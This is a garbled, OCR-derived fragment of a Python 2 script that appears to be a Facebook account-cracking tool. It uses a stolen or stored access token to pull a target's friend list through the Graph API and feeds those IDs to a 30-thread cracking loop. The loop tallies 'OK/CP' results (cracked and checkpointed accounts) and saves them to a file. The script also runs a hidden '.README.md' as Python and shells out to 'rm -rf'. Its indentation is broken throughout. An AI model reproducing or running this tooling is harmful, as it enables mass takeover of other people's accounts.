 														
	except:
		pass
	
p = ThreadPool(30)
p.map(main, id)
print (50*"-")
print ("[✓] Process Has Been Completed ....")
print ("[✓] Total OK/CP : "+str(len(oks))+"/"+str(len(cpb)))
print("[✓] CP File Has Been Saved : checkpoint.txt")
raw_input("\n[Back]")
if xxx == "0":
	crack_menu()
else:
	os.system("python2 .README.md")
def gbmail():
global toket
os.system("clear")
try:
toket=open("....","r").read()
except IOError:
print("[!] Token invalid")
os.system("rm -rf ....")
time.sleep(1)
os.system("python2 bxi.py")
else:
agbm()

def agbm():
bch = ("2")
if bch =="":
print ("[!] Fill in correctly")
agbm()
elif bch =="2":
os.system("clear")
print (logo)
idt = raw_input("[✓] Enter ID : ")
os.system("clear")
print (logo)
try:
jok = session.get("https://graph.facebook.com/"+idt+"?access_token="+toket)
op = json.loads(jok.text)
psb("[✓] Account Name: "+op["name"])
time.sleep(0.5)
except KeyError:
print("[!] ID Not Found!")
raw_input("\n[Back]")
gbmail()
r = session.get("https://graph.facebook.com/"+idt+"/friends?access_token="+toket)
z = json.loads(r.text)
for i in z["data"]:
id.append(i["id"])
xxx = str(len(id))
psb ("[✓] Total Friends: "+xxx)
time.sleep(0.5)
psb ("[✓] Please wait, process is running ...")
time.sleep(0.5)
psb ("[!] To Stop Process Press CTRL Then Press z")
time.sleep(0.5)
print (50*"-")
print
